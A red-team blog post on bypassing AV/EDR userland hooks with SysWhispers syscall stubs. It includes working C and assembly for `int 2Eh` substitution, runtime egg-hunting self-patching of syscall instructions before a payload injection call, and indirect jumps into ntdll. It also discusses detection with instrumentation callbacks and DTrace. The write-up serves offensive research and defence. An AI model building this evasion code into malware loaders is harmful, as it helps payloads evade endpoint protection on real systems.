




# SysWhispers is dead, long live SysWhispers!

## TL;DR

As already explained in my previous post "[The path to code execution in the era of EDR, Next-Gen AVs, and AMSI](../CodeExeNewDotNet/)",
various security products, such as AVs and EDRs, place hooks in user-mode API functions to analyse the execution flow of a specific API
in order to detect potentially malicious activities. Naturally, any Red Team Member will always need to find a way to address
this "issue", and execute specific code on a target environment without being flagged. 

> To anyone not familiar with API hooking, you can check this [link][12] to have a very good overview, or this [link][11] to get a presentation on the topic.

## Main Methods to bypass userland-hooking

There are a few well-known methods to bypass these userland hooks, such as:
* Syscalls' stub reimplementation + Dynamic SSN resolution (CREDITS: [Cn33liz][2])
* Hell's Gate (CREDITS: [am0nsec](https://twitter.com/am0nsec) & [RtlMateusz](https://twitter.com/vxunderground))
  * Evolution 1: Halo's Gate (CREDITS: [Sektor7](https://twitter.com/sektor7net))
  * Evolution 2: Tartarus' Gate (CREDITS: [Thanasis](https://twitter.com/trickster012))
* Manual/Overload Mapping (?)
* Full/partial Unhooking (?)

<small><i>*They are all awesome techniques, and I would really like to thank the original "inventors", I'm just not sure about some of the 
techniques, so if anyone is aware, please get in touch to let me know.</i></small>

Although all these techniques are currently adopted and sometimes combined to develop offensive tradecraft, I
would like to focus the attention on one of the above techniques: "Syscalls' stub reimplementation + Dynamic SSN resolution".
This technique, popularized by [Cn33liz][2], was later implemented by [Jackson_T](https://twitter.com/Jackson_T) 
in a popular tool for malware development: [SysWhispers2][8].

> "SysWhispers provides red teamers the ability to generate header/ASM pairs for any system call in the core kernel image 
(ntoskrnl.exe). The headers will also include the necessary type definitions."

Practically, thanks to SysWhispers, offensive developers could easily generate ASM stubs for specific
system calls (Syscall Stub Reimplementation) and call the associated system call by retrieving the right SSN at runtime
(via SSN EAT ordering). 

Useless to say that this tool is probably one of the most useful I had worked with. So useful,
that I used it to implement the native system call module of my malware development framework [Inceptor][1].

## Offence is the best Defence

I genuinely think that keep improving offensive tooling and adversary emulation/simulation techniques is 
by far the best way to improve the defensive side as well. 

Offensive tooling is constantly affected by this continuous evolution. A huge part of "defensive research" 
is all about developing or enhancing detection strategies for malware, tools (like C2 frameworks), and 
libraries (like D/Invoke). 

Of course, SysWhispers was also affected by this process. As soon as it was released, this tool was barely noticed by defensive
security tools. However, with time, the tool usage has started getting detected by some security solutions, 
both statically and dynamically. In the following paragraphs, we'll analyse how, and if we can do something 
about it.

## The mark of the "syscall"

Playing around with my Inceptor, one day I realised Defender was starting detecting some payloads, even if generated
with non-public templates. I was puzzled for a bit, even because using ThreatCheck/DefenderCheck I was not able to 
identify bad bytes. 

```
C:\inceptor> libs\public\ThreatCheck.exe -f artifacts\test.exe
[+] Target file size: 40488 bytes
[+] Analyzing...
[x] File is malicious, but couldn't identify bad bytes
```

I've soon noticed, however, that the same payload was not identified as malicious by Defender when the syscalls
modules was not used.

As SysWhispers mainly includes the assembly instructions for the syscalls' stubs, it was apparent to me that 
the detection should be based on something related to the stubs. After a while, I realised it was actually the 
`syscall` instruction. Thinking about it, it made sense, because there is no valid reason a `syscall` should be 
executed directly by an executable. Naturally, when a program needs to execute a System Call, it does that by using 
an exposed API, so the `syscall` instruction should be present, by logic, only in `ntdll.dll`.

To give you a visual representation, by dumping a payload generated by inceptor with `-m syscalls`, 
it is indeed possible to notice a bunch of `syscall` instructions.


### Bypass the static mark

What now? At the time, I already knew that it was possible to use another instruction to execute a System Call,
but let's proceed step-by-step.

#### Finding an alternative

By observing the stub of whatever system service call's stub in `ntdll.dll`, it's possible to notice a 
specific pattern:



If we rebuild the ASM code for this System Call, we could write something similar to this:

```asm
__syscall_stub:
  mov r10, rcx
  mov eax, <SSN>
  test byte ptr [SharedUserData+0x308], 1
  jne __syscall_not_enabled
  syscall
  ret
  
__syscall_not_enabled:
  int 2eh
  ret
```

There's not much to explain, but let's do it to ensure we are all on the same page.

```
mov r10, rcx
mov eax, <SSN>
```

The first two instructions are there just to ensure that `rcx` is saved in `r10` and the correct System 
Service Number is stored in `eax`. The value `r10` is the address of the first instruction to be executed 
back in userland, while the value in `eax` is used to invoke the right system call.

```asm
test byte ptr [SharedUserData+0x308], 1
jne __syscall_instruction_not_supported
```

Now the interesting part, the function checks if `SharedUserData[0x308]` is set to 1. 
`SharedUserData` is a symbol referring to the Kernel mode structure `KUSER_SHARED_DATA`.

The `KUSER_SHARED_DATA` structure defines a fixed (or pre-defined) memory space used to share information
with user-mode software. This, of course, was done for making certain global system information ready to be 
consumed by user-land code without the overhead to switch every time between user and kernel-mode execution.

The value at index 0x308 represents the syscall instruction, which is supported in all Windows versions from 1511.
As you might imagine, in all versions of Windows before 1511, the standard way to execute a syscall was by calling
the interrupt `int 2Eh`.

|Offset|Definition|Versions 
|---|---|---|
|0x308|ULONG SystemCall;| 1511 and higher

<small>
  <i>
  <a href="https://www.geoffchappell.com/studies/windows/km/ntoskrnl/inc/api/ntexapi_x/kuser_shared_data/index.htm">
    Geoff Chappell - KUSER_SHARED_DATA
  </a>
  </i>
</small>

If you're asking yourself why this `int 2Eh` is still there, even if Windows is now far above version 1511, it's because
this instruction is still used. Indeed, when [HVCI](https://docs.microsoft.com/it-it/windows-hardware/design/device-experiences/oem-hvci-enablement)
(Hypervisor-protected Code Integrity) is enabled, `SharedUserData[0x308]` is set to 0, and the `int 2Eh` is used instead
of the `syscall` instruction. This is mostly done for performance reasons, due to how the Ring3 to Ring0 switch is operated
using one or the other instruction.

However, what this tells us? Well, in a nutshell, that we can easily change every `syscall` occurrence with an
`int 2Eh`, and the code should run exactly the same.

As I've suggested at the beginning, I already knew about the `int 2Eh` instruction, but I thought it was interesting
to show that this instruction could be recovered easily regardless.

#### Is this really enough?

Honestly, I supposed Defender implemented a signature also for this instruction. It would make sense, 
because I actually don't know a legitimate use of this instruction in a user-mode application. But Defender 
didn't implement that signature (not at the time, at least). So just this little modification was enough to 
bypass Defender again:


The journey to bypass the newly introduced signature was not long. Honestly, I was a bit disappointed at 
this point, because I was expecting something more from Defender this time.

Before I finished this article, I found the same story wrote by a fellow researcher, [Capt. Meelo](https://twitter.com/CaptMeelo).
Here his blog post ["When You sysWhisper Loud Enough for AV to Hear You"][9].

## A new journey begins

Even if this journey was quite simple, this was just the start for a bigger journey, usable in case Defender could
be made smart enough to hunt also for `int 2Eh` (opcodes: `cd 2e`).

<small><i>Note: The techniques presented in the rest of the blog post are integrated into inceptor (sponsored).</i></small>

### A better alternative to int 2Eh - Egg Hunting

As already noticed by Capt. Meelo, changing the `syscall` instruction with `int 2Eh` can lead to other issues. On one
hand it's very easy to use, but on the other it's easy to signature, easy to hunt, and it also might not work as expected.

So what could be a better path to follow? Well, there are multiple choices, for sure. One technique might be placing 
specific placeholders instead of our `syscall` instructions, and change them at runtime. We can implement
this in the form of an egg-hunter. To understand how this might work, it is necessary to understand first what an egg-hunter is, and how
we can adapt it to our use case.

Generally, an egg-hunter is the first stage of a multistage payload. It is usually nothing more than 
a piece of code that locates specific patterns in memory by scanning it sequentially. The pattern 
is just an arbitrary sequence of bytes, and it's historically called "egg". To avoid errors, the egg is 
usually inserted "doubled". The most iconic egg ever used is probably "w00t", which gives the pattern 
"w00tw00t" to search. 

In assembly, when we want to insert a series of bytes in memory, we can use the "DB" trick. DB is an 
assembly instruction used to "define a byte". So, if we want to insert the sequence "w00t" in memory, we 
can do it like:

```asm
DB 77h ; 'w'
DB 0h  ; '0'
DB 0h  ; '0'
DB 74h ; 't'
```

Using this trick, we can place a sequence of known-bytes (egg) as a placeholder for the `syscall` instruction, and replace
it at runtime. Integrated into SysWhispers, that will give the pattern below. For simplicity, only one
NtApi (`NtAllocateVirtualMemory`) is shown.

```asm
NtAllocateVirtualMemory PROC
  mov [rsp +8], rcx          ; Save registers.
  mov [rsp+16], rdx
  mov [rsp+24], r8
  mov [rsp+32], r9
  sub rsp, 28h
  mov ecx, 003970B07h        ; Load function hash into ECX.
  call SW2_GetSyscallNumber  ; Resolve function hash into syscall number.
  add rsp, 28h
  mov rcx, [rsp +8]          ; Restore registers.
  mov rdx, [rsp+16]
  mov r8, [rsp+24]
  mov r9, [rsp+32]
  mov r10, rcx
  DB 77h                     ; "w"
  DB 0h                      ; "0"
  DB 0h                      ; "0"
  DB 74h                     ; "t"
  DB 77h                     ; "w"
  DB 0h                      ; "0"
  DB 0h                      ; "0"
  DB 74h                     ; "t"
  ret
NtAllocateVirtualMemory ENDP
```

Using the stub above in a real program would naturally result in a crash and exit, as the function does practically
nothing than crafting the stack for a system call and return.


In order to be usable, we need to modify the "w00tw00t" in memory with the necessary opcodes, in this
case `0f 05 c3 90 90 90 90 90` (or similar), which translates to `syscall; ret; nop; nop; nop; nop; nop;`.

This can be done in a variety of ways. A sample code to achieve this is provided below:

```c
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>
#include <psapi.h>

#define DEBUG 0

HMODULE GetMainModule(HANDLE);
BOOL GetMainModuleInformation(PULONG64, PULONG64);
void FindAndReplace(unsigned char[], unsigned char[]);

HMODULE GetMainModule(HANDLE hProcess)
{
    HMODULE mainModule = NULL;
    HMODULE* lphModule;
    LPBYTE lphModuleBytes;
    DWORD lpcbNeeded;

    // First call needed to know the space (bytes) required to store the modules' handles
    BOOL success = EnumProcessModules(hProcess, NULL, 0, &lpcbNeeded);

    // We already know that lpcbNeeded is always > 0
    if (!success || lpcbNeeded == 0)
    {
        printf("[-] Error enumerating process modules\n");
        // At this point, we already know we won't be able to dyncamically
        // place the syscall instruction, so we can exit
        exit(1);
    }
    // Once we got the number of bytes required to store all the handles for
    // the process' modules, we can allocate space for them
    lphModuleBytes = (LPBYTE)LocalAlloc(LPTR, lpcbNeeded);

    if (lphModuleBytes == NULL)
    {
        printf("[-] Error allocating memory to store process modules handles\n");
        exit(1);
    }
    unsigned int moduleCount;

    moduleCount = lpcbNeeded / sizeof(HMODULE);
    lphModule = (HMODULE*)lphModuleBytes;

    success = EnumProcessModules(hProcess, lphModule, lpcbNeeded, &lpcbNeeded);

    if (!success)
    {
        printf("[-] Error enumerating process modules\n");
        exit(1);
    }

    // Finally storing the main module
    mainModule = lphModule[0];

    // Avoid memory leak
    LocalFree(lphModuleBytes);

    // Return main module
    return mainModule;
}

BOOL GetMainModuleInformation(PULONG64 startAddress, PULONG64 length)
{
    HANDLE hProcess = GetCurrentProcess();
    HMODULE hModule = GetMainModule(hProcess);
    MODULEINFO mi;

    GetModuleInformation(hProcess, hModule, &mi, sizeof(mi));

    printf("Base Address: 0x%llu\n", (ULONG64)mi.lpBaseOfDll);
    printf("Image Size:   %u\n", (ULONG)mi.SizeOfImage);
    printf("Entry Point:  0x%llu\n", (ULONG64)mi.EntryPoint);
    printf("\n");

    *startAddress = (ULONG64)mi.lpBaseOfDll;
    *length = (ULONG64)mi.SizeOfImage;

    DWORD oldProtect;
    VirtualProtect(mi.lpBaseOfDll, mi.SizeOfImage, PAGE_EXECUTE_READWRITE, &oldProtect);

    return 0;
}

void FindAndReplace(unsigned char egg[], unsigned char replace[])
{

    ULONG64 startAddress = 0;
    ULONG64 size = 0;

    GetMainModuleInformation(&startAddress, &size);

    if (size <= 0) {
        printf("[-] Error detecting main module size");
        exit(1);
    }

    ULONG64 currentOffset = 0;

    unsigned char* current = (unsigned char*)malloc(8*sizeof(unsigned char*));
    size_t nBytesRead;

    printf("Starting search from: 0x%llu\n", (ULONG64)startAddress + currentOffset);

    while (currentOffset < size - 8)
    {
        currentOffset++;
        LPVOID currentAddress = (LPVOID)(startAddress + currentOffset);
        if(DEBUG > 0){
            printf("Searching at 0x%llu\n", (ULONG64)currentAddress);
        }
        if (!ReadProcessMemory((HANDLE)((int)-1), currentAddress, current, 8, &nBytesRead)) {
            printf("[-] Error reading from memory\n");
            exit(1);
        }
        if (nBytesRead != 8) {
            printf("[-] Error reading from memory\n");
            continue;
        }

        if(DEBUG > 0){
            for (int i = 0; i < nBytesRead; i++){
                printf("%02x ", current[i]);
            }
            printf("\n");
        }

        if (memcmp(egg, current, 8) == 0)
        {
            printf("Found at %llu\n", (ULONG64)currentAddress);
            WriteProcessMemory((HANDLE)((int)-1), currentAddress, replace, 8, &nBytesRead);
        }

    }
    printf("Ended search at:   0x%llu\n", (ULONG64)startAddress + currentOffset);
    free(current);
}
```

Within an inceptor template, then, we can simply do something like this:

```c
int main(int argc, char** argv) {

    unsigned char egg[] = { 0x77, 0x00, 0x00, 0x74, 0x77, 0x00, 0x00, 0x74 }; // w00tw00t
    unsigned char replace[] = { 0x0f, 0x05, 0x90, 0x90, 0xC3, 0x90, 0xCC, 0xCC }; // syscall; nop; nop; ret; nop; int3; int3

    //####SELF_TAMPERING####
    (egg, replace);

    Inject();
    return 0;
}
```

The `//####SELF_TAMPERING####` placeholder will be replaced by the randomly-named function `FindAndReplace`.
We can compile it using the following command line:

```commandline
python inceptor.py native tests\note.raw -o artifacts\note.exe -m syscalls -m self_tampering
```

If this is compiled with Inceptor, we can notice how the eggs are detected by our egg-hunter and 
replaced with the correct instructions, successfully executing the code.


Here's the detail of the spotted instructions:



#### Detected again! The RIP curse

This technique is not easy to detect as replacing `syscall` with `int 2Eh` but, of course, it can still 
be detected by a careful hunter. How?

Thanks to my friend and researcher [Olaf Hartong](https://twitter.com/olafhartong), I've realised that defenders 
are not just looking for System Calls to happen, but they also focus on WHERE a specific `syscall` instruction 
was executed. In this context, the main issue with using System Call stubs re-implementation, is that 
a System Call originates from a module in memory which is not `ntdll.dll`.

Indeed, if the call was legitimately called, the return address (from the kernel) should be in `ntdll`, 
while if it was crafted within the binary itself, the kernel should return to an address within the main
image of the program which executes it.

Let's make it clear with a scheme. When a System Call is called through an API, the flow appears like
in the following scheme:


As observable, when the execution returns from kernel to user mode code, the RIP (the instruction pointer)
is in `ntdll`. As we've seen, after the `syscall` instruction, usually there is a `ret`, which returns the 
execution back to the caller. 

However, when a function is crafted as in SysWhispers, the `syscall` instruction is executed directly within
the main module of the program, and the flow appears like the following:




As such, detecting maliciously crafted system calls could be easily done using a RIP sanity check. 
The question now is, can we intercept the execution whenever the kernel switch back to user mode?
We can, by using a framework and some tricks shared by [Alex Ionescu][3] at REcon in 2015, 
wrapped, and superbly presented in a talk titled [Hooking Nirvana](https://www.youtube.com/watch?v=pHyWyH804xE).

> Nirvana is a lightweight, dynamic translation framework that can be used to monitor and control the 
> (user mode) execution of a running process without needing to recompile or rebuild any code in that 
> process. This is sometimes also referred to as program shepherding, sandboxing, emulation, or 
> virtualization. Dynamic translation is a powerful complement to existing static analysis and 
> instrumentation techniques. – Microsoft
 
Leveraging Nirvana, a security tool, or a hunter, can hook and monitor all kernel -> user mode callbacks. 

More specifically, it is possible to leverage the `KPROCESS!InstrumentationCallback` field to execute a callback
every time there is a kernel to user mode switch. The main idea is to save the RIP, and analyse it to see if, when 
the execution returns to user mode, it is within the `ntdll` address space.

While I was trying to implement it, I found this project already implemented [here](https://github.com/jackullrich/syscall-detect).
The project was released altogether with a nice [article](https://winternl.com/detecting-manual-syscalls-from-user-mode/).
It's an incredibly good read.

Once compiled, we can add it to our project by simply loading the DLL using `LoadLibrary`:

```c
int main(int argc, char** argv) {
    
    LoadLibrary("C:\\syscall-detect.dll");
    
    unsigned char egg[] = { 0x77, 0x00, 0x00, 0x74, 0x77, 0x00, 0x00, 0x74 }; // w00tw00t
    unsigned char replace[] = { 0x0f, 0x05, 0x90, 0x90, 0xC3, 0x90, 0xCC, 0xCC }; // syscall; nop; nop; ret; nop; int3; int3

    //####SELF_TAMPERING####
    (egg, replace);

    Inject();
    return 0;
}
```

And... yes, it can spot us pretty easily:



#### Bypassing the RIP check

We can again bypass this check with a nice technique, both simple and flexible, which consists in 
performing an indirect jump from our code to a `syscall` instruction inside `ntdll.dll`. 
I usually refer to this technique as "Jumper".

However, if we want to implement something like that, we would need to dynamically resolve the address of the correct 
`syscall` instruction, for each System Call we want to use. After a skim read of the SysWhispers code, it was apparent
I could easily implement the missing functionality.

Indeed, SysWhispers already maintained in memory a structure to associate System Service Numbers (SSN) and RVAs:

```c
typedef struct _SW2_SYSCALL_ENTRY
{
    DWORD Hash;
    DWORD Address;
    // ---> ADDING A FIELD 
    // ULONG64 SyscallOffset;
} SW2_SYSCALL_ENTRY, *PSW2_SYSCALL_ENTRY;

typedef struct _SW2_SYSCALL_LIST
{
    DWORD Count;
    SW2_SYSCALL_ENTRY Entries[SW2_MAX_ENTRIES];
} SW2_SYSCALL_LIST, *PSW2_SYSCALL_LIST;
```

As such, we can easily add a `ULONG64` field to store the `syscall` instruction absolute address.
With that set, when the `_SW2_SYSCALL_LIST` is populated, we need a way to calculate the address of the
`syscall` instruction. We can borrow the same logic of the Egg-Hunter implemented earlier, as the concept
is the same. In this case though, we have already the `ntdll.dll` base address, and SysWhispers also 
calculates the function RVA from the DLL EAT (Export Address Table). As such, the only things to calculate 
is the relative position of the `syscall` instruction and do some maths.

A pseudo-code implementation could be:
```
function findOffset(HANDLE current_process, int64 start_address, int64 dllSize) -> int64:
  int64 offset = 0
  bytes signature = "\x0f\x05\x03"
  bytes currentbytes = ""
  while currentbytes != signature:
    offset++
    if offset + 3 > dllSize:
      return INFINITE
    ReadProcessMemory(current_process, start_address + offset, &currentbytes, 3, nullptr)
  return start_address + offset  
```
<small><i>I'm not sharing the full implementation, but at this point you have enough code to crack your own ;)</i></small>

Once we have the address of the `syscall` instruction associated with the Nt/Zw function we need to call, 
we can just jump to it, using `JMP <Syscall Address>`.

> In [this](https://twitter.com/s4ntiago_p/status/1488508934172278788) response by [S4ntiagoP][7], I was notified that [nanodump](https://github.com/helpsystems/nanodump) utilises this technique to create the stubs
to dump LSASS. If you're interested in seeing an actual implementation, check it [here](https://github.com/helpsystems/nanodump/blob/main/source/syscalls-asm.asm).

#### "Freshy" System Calls

Before continuing, I would like to notice that a similar technique was implemented by [Elephantse4l][4] in the [FreshyCalls](https://github.com/crummie5/FreshyCalls).

However, this technique uses static offsets from the start of the system call stub to detect the 
`syscall` instruction, as you can see in the code below:

```c
// Tries to locate the syscall instruction inside a stub using some known patterns. Returns
// the address of the instruction.

[[nodiscard]] static inline uintptr_t FindSyscallInstruction(uintptr_t stub_addr) noexcept {
  uintptr_t instruction_addr;

  // Since Windows 10 TH2
  if (*(reinterpret_cast<unsigned char *>(stub_addr + 0x12)) == 0x0F &&
      *(reinterpret_cast<unsigned char *>(stub_addr + 0x13)) == 0x05) {
    instruction_addr = stub_addr + 0x12;
  }

    // From Windows XP to Windows 10 TH2
  else if (*(reinterpret_cast<unsigned char *>(stub_addr + 0x8)) == 0x0F &&
      *(reinterpret_cast<unsigned char *>(stub_addr + 0x9)) == 0x05) {
    instruction_addr = stub_addr + 0x8;
  } else {
    instruction_addr = 0;
  }

  return instruction_addr;
};
```

This means that, if any userland hooks are placed between the start of the signature and the `syscall` instruction,
FreshyCalls would fail to execute them.

#### So what if there are any hooks installed?

As opposed to FreshyCalls implementation, our newly implemented jumper is less susceptible to hooks, as it dynamically searches 
for the `syscall` instruction, which must be there, in `ntdll.dll`. 
It indeed doesn't use static offsets from the start of the syscall signature, which could be broken by inline 
hooks installed within the dll.

#### Demo

And below we can see how it is possible to bypass the RIP check using the indirect jump:


## Additional considerations

In his blog, [Elephantse4l][4] assumed that, by jumping to `syscall` instruction inside `ntdll`, we 
somehow "leaked" the syscall we used. 

In a [response](https://twitter.com/ElephantSe4l/status/1488463781621547009) on Twitter, [Elephantse4l][4] explained to me that what this means is that the return 
address (back from kernel) can be correlated using ETW to identify the system call we used. This would 
eventually open up for interesting scenarios where we use a direct JMP to a `syscall` in `ntdll`, but using 
the address of a `syscall` instruction from a different API than the one we are actually using.

To make an example, if we are using `NtAllocateVirtualMemory`, we can perform an indirect jump to the address
of the `syscall` instruction inside `NtTestAlert`, and so on.

However, regardless how the system call is actually implemented (within the main program or via a jump 
to `ntdll`), it can still be detected by leveraging kernel tracing. Kernel tracing detects
the system call by using the SSN value more than the return address, and as such, it's pretty difficult to
trick.

A trivial example is offered by the following D script for DTrace:

```D
syscall::NtAllocateVirtualMemory:entry 
/execname == $1 / 
{  
  MEM_COMMIT = 0x00001000;
  MEM_PHYSICAL = 0x00400000;
  MEM_RESERVE = 0x00002000;
  
  PAGE_EXECUTE_READWRITE = 0x40;

  /*
  arg3 is the RegionSize, which is a pointer to the variable that will contain the actual size of the allocated buffer
  of course, we are interested only in pointers in user land 		
  */
  if (arg3 > 0) 
  {	
    if ( (arg4 & MEM_COMMIT) && (arg4 & MEM_RESERVE) )
      if ( (arg5 & PAGE_EXECUTE_READWRITE) )
        printf(" Bytes reserved & commited %d ",  * (nt`PSIZE_T) copyin(arg3, sizeof (nt`PSIZE_T)));
  } 	
}
```

If executed via dtrace, as:

```commandline
dtrace -s NtAllocateVirtualMemory.d test.exe
```

DTrace can easily see the syscall generated via an indirect JMP to `ntdll` using our modified SysWhispers.


But can also easily see the syscall generated in the main Program module using the normal SysWhispers.


### Stupid, but maybe effective

A stupidly simple way for an EDR to detect if a program is doing anything "suspicious" would be to count 
the number of system calls executed by it, and validate that number against the number of system calls executed by
that program and successfully analysed by the EDR itself. If the numbers mismatch, the program is very 
likely to be hiding its behaviour.

## Conclusion

Although more appealing techniques for user-land hooking bypass are becoming more prominent, like Hell's
Gate, and even more its evolutions (Halo's and Tartarus'), I think the technique implemented in SysWhispers
offers some advantages which are difficult to not considerate for offensive development, the only requirement
is a bit of creativity.

[Back to Red Teaming](../../)

[Back to Home](https://klezvirus.github.io/)

[1]: https://github.com/klezVirus/inceptor.git
[2]: https://twitter.com/Cn33liz
[3]: https://twitter.com/aionescu
[4]: https://mobile.twitter.com/elephantse4l
[5]: https://mobile.twitter.com/CaptMeelo
[6]: https://twitter.com/modexpblog
[7]: https://twitter.com/s4ntiago_p
[8]: https://github.com/jthuraisamy/SysWhispers2
[9]: https://captmeelo.com/redteam/maldev/2021/11/18/av-evasion-syswhisper.html
[11]: https://github.com/klezVirus/inceptor/blob/main/slides/Inceptor%20-%20Bypass%20AV-EDR%20solutions%20combining%20well%20known%20techniques.pdf
[12]: https://www.ired.team/offensive-security/code-injection-process-injection/how-to-hook-windows-api-using-c++